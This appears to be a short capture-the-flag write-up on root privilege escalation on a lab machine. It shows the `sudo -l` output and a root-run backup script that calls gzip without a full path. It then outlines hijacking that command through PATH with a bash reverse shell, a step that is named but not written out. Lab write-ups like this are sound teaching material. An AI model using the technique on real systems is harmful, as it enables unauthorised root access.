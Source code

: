 # Privilege escalation to root
## Running `sudo -l` gives command that can be run as sudo
Running `sudo -l` gives command `/opt/scripts/access_backup.sh` that can be run as sudo .
```bash
m4lwhere@previse:~$ sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
m4lwhere@previse:~$
```
Contents of `access_backup.sh` are as follows.
```bash
m4lwhere@previse:~$ cat  /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```
## Inspecting contents of `access_backup.sh` 
Inspecting contents of `access_backup.sh` . gzip command can be path hijacked to gain root.
## stroring bash reverse shell in file named 'gzip' in /tmp directory and adding /tmp directory to 'PATH'


